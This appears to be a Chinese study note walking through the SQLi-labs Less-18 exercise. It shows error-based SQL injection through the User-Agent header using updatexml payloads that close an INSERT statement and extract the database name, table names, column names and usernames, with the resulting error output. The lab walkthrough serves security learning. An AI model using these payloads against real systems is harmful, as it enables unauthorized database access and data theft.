 #### Less-18 报错函数：

在输入正确的用户名密码之后发现提示 `useragent` 信息然后对 useragent 进行尝试注入，发现有 sql 错误

用 payload 进行渗透

那么该如何获得响应的信息呢？

利用**报错函数**

##### 数据库名

```mysql
1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
```

![image-20240806141306109](../../../../repo/assets/19.SQL注入/image-20240806141306109.png)

不能像常规的报错盲注一样直接上，我们得考虑一下闭合VALUES，假如我们利用的点是$uagent，那构建格式就应该是`1',1,1)#`，在SQL语句中相当于

```mysql
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,1)#, '$IP', $uname)
```

> Your IP ADDRESS is: 192.168.70.14
>
> Your User Agent is: 1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
>
> XPATH syntax error: '`~security~`'

##### 表名

```mysql
1',1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1))#
```

![image-20240806141348574](../../../../repo/assets/19.SQL注入/image-20240806141348574.png)

##### 字段名

```mysql
1',1, updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 0,1),0x7e),1)) -- +
```

![image-20240806141558662](../../../../repo/assets/19.SQL注入/image-20240806141558662.png)

##### 字段值

```mysql
1',1, updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)) -- +
```

![image-20240806141732704](../../../../repo/assets/19.SQL注入/image-20240806141732704.png)

#### Sqlmap报错注入less-18
